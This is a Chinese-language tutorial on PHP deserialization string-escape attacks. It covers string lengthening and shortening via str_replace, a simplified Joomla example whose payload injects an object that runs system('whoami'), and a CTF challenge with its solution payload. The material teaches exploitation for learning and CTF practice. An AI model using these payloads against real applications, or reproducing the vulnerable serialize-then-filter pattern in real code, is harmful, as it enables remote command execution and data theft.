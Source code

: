 ## 反序列化字符串逃逸

```php
<?php 
class Demo{
    public $a="asdf";
}
$test=new Demo();
echo serialize($test)."\n";
?>
```

`O:4:"Demo":1:{s:1:"a";s:4:"asdf";}`

```php
<?php 
class Demo{
    public $a="asdf";
}
$str='O:4:"Demo":1:{s:1:"a";s:4:"asdf";}123456';
var_dump(unserialize($str));
?>
```

```
object(Demo)#1 (1) {
  ["a"]=>
  string(4) "asdf"
}
```

反序列化的过程是`{`最近的`;}`完成匹配并停止解析,在序列化结果的结尾加上无意义字符串仍然能够进行反序列化

### 字符串变长

```php
<?php
error_reporting(E_ALL);
ini_set('display_errors','1');
$username="axxx";
$password="123456";
$user=array($username,$password);

echo serialize($user)."<br>";
$re=str_replace('x','yy',serialize($user));
echo $re."<br>";
unserialize($re);
?>
```

```
a:2:{i:0;s:4:"axxx";i:1;s:6:"123456";}
a:2:{i:0;s:4:"ayyyyyy";i:1;s:6:"123456";}

Notice: unserialize(): Error at offset 18 of 41 bytes in /var/www/html/test.php on line 11
```

要做到在`str_replace`后仍然能够正常进行反序列化,并修改密码

`";i:1;s:6:"123456";}`的长度为20,`20+len=2*len`,`len=20`,因此`x`共有20个

```php
<?php
error_reporting(E_ALL);
ini_set('display_errors','1');
$username='axxxxxxxxxxxxxxxxxxxx";i:1;s:6:"654321";}';
$password="123456";
$user=array($username,$password);

echo serialize($user)."<br>";
$re=str_replace('x','yy',serialize($user));
echo $re."<br>";
var_dump(unserialize($re));
?>
```

```
a:2:{i:0;s:41:"axxxxxxxxxxxxxxxxxxxx";i:1;s:6:"654321";}";i:1;s:6:"123456";}
a:2:{i:0;s:41:"ayyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy";i:1;s:6:"654321";}";i:1;s:6:"123456";}
array(2) { [0]=> string(41) "ayyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy" [1]=> string(6) "654321" } 
```

### 字符串变短

```php
<?php
error_reporting(E_ALL);
ini_set('display_errors','1');
$demo=array();
$demo["name"]='adminadminadminadmin';
$demo["info"]='a";s:4:"info";s:10:"gululingbo";s:6:"secret";s:7:"7654321";}';
$demo["secret"]='123456';
print_r($demo);
echo "<br>".serialize($demo)."<br>";
$re=str_replace('admin','',serialize($demo));
echo $re."<br>";
var_dump(unserialize($re));
?>
```

```
Array ( [name] => adminadminadminadmin [info] => a";s:4:"info";s:10:"gululingbo";s:6:"secret";s:7:"7654321";} [secret] => 123456 )
a:3:{s:4:"name";s:20:"adminadminadminadmin";s:4:"info";s:60:"a";s:4:"info";s:10:"gululingbo";s:6:"secret";s:7:"7654321";}";s:6:"secret";s:6:"123456";}
a:3:{s:4:"name";s:20:"";s:4:"info";s:60:"a";s:4:"info";s:10:"gululingbo";s:6:"secret";s:7:"7654321";}";s:6:"secret";s:6:"123456";}
array(3) { ["name"]=> string(20) "";s:4:"info";s:60:"a" ["info"]=> string(10) "gululingbo" ["secret"]=> string(7) "7654321" } 
```

当把admin替换之后,`s:20`仍然需要20个字符,为了满足反序列化的要求,会向后读取字符,直至凑齐20个字符,也就是读取`";s:4:"info";s:60:"a`,凑齐20个字符后恰好以`";`结尾

后面的`s:4:"info";s:10:"gululingbo";s:6:"secret";s:7:"7654321";`正常进行反序列化,然后遇到`}`且对象数量已经满足,因此反序列化正常结束

### 例题

#### Joomla反序列化逃逸

[简易版的Joomla处理反序列化的机制](https://xz.aliyun.com/t/6718/#toc-1)

```php
<?php

class evil
{
    public $cmd;

    public function __construct($cmd)
    {
        $this->cmd = $cmd;
    }

    public function __destruct()
    {
        system($this->cmd);
    }
}

class User
{
    public $username;
    public $password;

    public function __construct($username, $password)
    {
        $this->username = $username;
        $this->password = $password;
    }

}

function write($data)
{
    $data = str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
    file_put_contents("/tmp/dbs.txt", $data);
}

function read()
{
    $data = file_get_contents("/tmp/dbs.txt");
    $data = str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
    return $data;
}

if (file_exists("/tmp/dbs.txt")) {
    unlink("/tmp/dbs.txt");
}

$username = '\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0';
$password = 'a";s:8:"password";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}';

write(serialize(new User($username, $password)));
var_dump(unserialize(read()));
```

```
www-data
boolean false
```

注意`'\0\0\0'`与`"\0\0\0"`的区别,在`read`函数中将`\0\0\0`(六个字符)替换为`chr(0).'*'.chr(0)`(三个字符),由于字符串发生变短,此处产生了字符串逃逸,利用逃逸的字符串对`evil`进行反序列化并进行命令执行

#### 2021年新生赛easy-unserialize

[xp0int-2021-ctf-web/easy-unserialize](https://github.com/mi3aka/xp0int-2021-ctf-web/tree/master/easy-unserialize)

```php
<?php
highlight_file(__FILE__);

class getflag
{
    public $file;

    public function __destruct()
    {
        if ($this->file === "flag.php") {
            echo file_get_contents($this->file);
        }
    }
}

class tmp
{
    public $str1;
    public $str2;

    public function __construct($str1, $str2)
    {
        $this->str1 = $str1;
        $this->str2 = $str2;
    }
}

$str1 = $_POST['str1'];
$str2 = $_POST['str2'];
$data = serialize(new tmp($str1, $str2));
$data = str_replace("easy", "ez", $data);
unserialize($data);
```

```php
<?php
highlight_file(__FILE__);

class getflag
{
    public $file;

    public function __destruct()
    {
        if ($this->file === "flag.php") {
            echo file_get_contents($this->file);
        }
    }
}

class tmp
{
    public $str1;
    public $str2;

    public function __construct($str1, $str2)
    {
        $this->str1 = $str1;
        $this->str2 = $str2;
    }

}

$str1 = 'easyeasyeasyeasyeasyeasyeasyeasyeasy';
$str2 = ';s:4:"str2";O:7:"getflag":1:{s:4:"file";s:8:"flag.php";}';
$data = serialize(new tmp($str1, $str2));
$data = str_replace("easy", "ez", $data);
unserialize($data);
```

利用`easy`缩短成`ez`产生的长度差,将`getflag`的反序列化逃逸出去